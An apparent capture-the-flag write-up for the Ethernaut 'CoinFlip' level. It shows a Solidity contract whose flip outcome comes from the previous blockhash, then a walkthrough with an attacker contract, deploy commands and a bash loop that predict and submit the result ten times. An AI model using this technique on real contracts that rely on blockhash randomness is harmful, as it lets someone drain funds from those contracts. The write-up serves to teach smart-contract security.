 ## CoinFlip Level Outline

**Difficulty : 3/10**

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x9CB391dbcD447E645D6Cb55dE6ca23164130D008)

## Solution
Because the flip is calculated onchain using the previous blockhash, we can predict what the outcome will be by simulating the coinflip on our custom smart contract and submitting the result.

### Walkthrough

##### 1. Create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import 'openzeppelin-contracts/contracts/utils/math/SafeMath.sol';

contract FortuneTeller {
    using SafeMath for uint256;
    CoinFlip coinFlip;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _coinFlip) {
        coinFlip = CoinFlip(_coinFlip);
    }

    function predictFuture() public {
        uint256 blockValue = uint256(blockhash(block.number.sub(1)));
        bool prediction = blockValue.div(FACTOR) == 1 ? true : false;

        coinFlip.flip(prediction);
    }
}

interface CoinFlip {
    function flip(bool _guess) external returns (bool);
}
```

##### 2. Deploy our new contract
```console
forge create src/Contract.sol:FortuneTeller --constructor-args $LEVEL_ADDRESS --private-key  $PRIVATE_KEY
```

##### 3. Create a simple bashscript to flip the coin 10 times
```console
touch flip.sh
```
add the following bash script to `flip.sh`
```bash
#!/bin/bash
for i in {1..10}
do
    cast send $DEPLOYED_ADDRESS "predictFuture()" --gas 80000 --private-key $PRIVATE_KEY
    sleep 20s
    echo Correct Flips : $i
done
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

##### 4. Run `flip.sh`
```console
chmod 777 flip.sh
./flip.sh
```

## Further Reading
How to avoid generating numbers onchain by using [Chainlink VRF](https://docs.chain.link/docs/get-a-random-number)

### [:arrow_left: Back To Main Menu](../)
